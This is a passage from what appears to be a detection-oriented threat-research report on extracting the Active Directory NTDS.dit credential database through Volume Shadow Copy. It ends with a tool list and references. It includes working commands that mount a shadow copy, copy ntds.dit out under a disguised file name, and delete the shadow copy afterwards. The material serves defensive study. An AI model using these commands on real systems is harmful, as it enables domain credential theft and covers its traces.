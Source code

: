 ```plaintext
mklink /d C:\Extract \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\\
```

Then you can browse the contents of the shadow copy using the mounted folder
like any other folder. Alternately, the copy command (which is a native command
in `cmd.exe`) can copy from volumes what haven't been assigned a drive letter or
mounted to a folder. You can provide the volume identifier directly in the
command. This is what the command looks like to extract the NTDS from a given
volume shadow copy:

```plaintext
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\ntds.dit C:\Extracted\totallyinnocentfile.bin
```

To clean up, you can remove a symbolic link with:

```plaintext
rmdir C:\Extract
```

And you can delete the shadow copy with:

- (using PowerShell) `(gwmi win32\_shadowcopy -filter
    "ID='{fadfc2f5-749a-4632-8a1c-04f2d5fa4e13}'").delete()`

- (using VSSAdmin) `vssadmin delete shadows
    /shadow={fadfc2f5-749a-4632-8a1c-04f2d5fa4e13}`

The following tools (administrative or attack tools) can be used to access the
NTDS.dit via the volume shadow service:

- Impacket's [secretsdump.py]
- [esentutl]
- Metasploit's [NTDSGRAB]
- NTDSUtil
- VSSAdmin
- Powershell - `get-wmiobject` and `win32_shadowcopy`
- WMIC - `win32_shadowcopy`
- diskshadow
- [CrackMapExec]

#### Detection Data Model

![DDM - Volume Shadow Copy access](ddms/trr0015_a.png)


[T1003.003]: https://attack.mitre.org/techniques/T1003/003/
[Golden Ticket]: https://attack.mitre.org/techniques/T1558/001/
[Credential Dumping: NTDS.dit - Raj Chandel’s Blog]: https://www.hackingarticles.in/credential-dumping-ntds-dit/
[SysKey and the SAM - Moyix Blog]: http://moyix.blogspot.com/2008/02/syskey-and-sam.html
[CoInitializeEx]: https://learn.microsoft.com/en-us/windows/desktop/api/combaseapi/>nf-combaseapi-coinitializeex
[CoCreateInstance]: https://learn.microsoft.com/en-us/windows/desktop/api/combaseapi/>nf-combaseapi-cocreateinstance
[Win32_ShadowCopy]: https://learn.microsoft.com/en-us/previous-versions/windows/desktop/legacy/aa394428(v=vs.85)
[File Server Remote VSS Protocol]: https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-fsrvp/dae107ec-8198-4778-a950-faa7edad125b
[IVssBackupComponents::ExposeSnapshot]: https://learn.microsoft.com/en-us/windows/desktop/api/VsBackup/nf-vsbackup-ivssbackupcomponents-exposesnapshot
[secretsdump.py]: https://github.com/SecureAuthCorp/impacket/blob/impacket_0_9_23/examples/secretsdump.py
[esentutl]: https://attack.mitre.org/software/S0404/
[NTDSGRAB]: https://github.com/rapid7/metasploit-framework/blob/master/data/post/powershell/NTDSgrab.ps1
[CrackMapExec]: https://github.com/byt3bl33d3r/CrackMapExec/wiki/SMB-Command-Reference
[Atomic Tests 1-9]: https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1003.003/T1003.003.md
[Extracting Password Hashes from the NDTS.dit - StealthBits]: https://stealthbits.com/blog/extracting-password-hashes-from-the-ntds-dit-file/
[Extensible Storage Engine (ESE) Database File (EDB) format specification]: https://github.com/libyal/libesedb/blob/main/documentation/Extensible%20Storage%20Engine%20(ESE)%20Database%20File%20(EDB)%20format.asciidoc
[NTFSParser - GitHub]: https://github.com/PowerShellMafia/PowerSploit/tree/master/Exfiltration/NTFSParser
[Invoke-NinjaCopy - GitHub]: https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-NinjaCopy.ps1
[COM Objects and Interfaces - Microsoft Learn]: https://learn.microsoft.com/en-us/windows/win32/com/com-objects-and-interfaces
[Creating a COM Object -  - Microsoft Learn]: https://learn.microsoft.com/en-us/windows/win32/learnwin32/creating-an-object-in-com
[Code Sample Using VSS API - Experts Exchange]: https://www.experts-exchange.com/questions/27588086/Volume-Shadow-Copy-c.html
[Volume Shadow Copy Service - Microsoft]: https://docs.microsoft.com/en-us/windows-server/storage/file-server/volume-shadow-copy-service
[Volume Shadow Copy Service - Microsoft Learn]: https://learn.microsoft.com/en-us/windows/win32/vss/volume-shadow-copy-service-portal
[Intro to the Volume Shadow Copy Service API - CodeProject]: https://www.codeproject.com/Articles/321273/Introduction-to-the-Volume-Shadow-Copy-Service-API
[Windows Wednesday: Volume Shadow Copies - Medium]: https://bromiley.medium.com/windows-wednesday-volume-shadow-copies-d20b60997c22
[CreateFileA API - Microsoft]: https://docs.microsoft.com/en-us/windows/win32/api/fileapi/nf-fileapi-createfilea
[VSS: Generating a Backup Set - Microsoft Learn]: https://learn.microsoft.com/en-us/windows/win32/vss/generating-a-backup-set
[Volume Shadow Copy API - Microsoft Learn]: https://learn.microsoft.com/en-us/windows/win32/vss/volume-shadow-copy-api-interfaces
[Exposing and Surfacing Shadow Copies - Microsoft Learn]: https://learn.microsoft.com/en-us/windows/win32/vss/exposing-and-surfacing-shadow-copied-volumes
[^1]: [Extensible Storage Engine - Wikipedia](https://en.wikipedia.org/wiki/Extensible\_Storage\_Engine)
[^2]: [Volume Shadow Copy API - Microsoft Learn](https://learn.microsoft.com/en-us/windows/win32/vss/volume-shadow-copy-api-interfaces)
[^3]: [Code Example: The Open Dialog Box - Microsoft Learn](https://learn.microsoft.com/en-us/windows/win32/learnwin32/example--the-open-dialog-box)
[^4]: [VSS: Generating a Backup Set - Microsoft Learn](https://learn.microsoft.com/en-us/windows/win32/vss/generating-a-backup-set)
[^5]: [VShadow - GitHub](https://github.com/microsoft/Windows-classic-samples/tree/main/Samples/VShadowVolumeShadowCopy)
[^6]: [Exposing and Surfacing Shadow Copies - Microsoft Learn](https://learn.microsoft.com/en-us/windows/win32/vss/exposing-and-surfacing-shadow-copied-volumes)
[^7]: [An NTFS Parser Library - CodeProject](https://www.codeproject.com/Articles/81456/An-NTFS-Parser-Lib)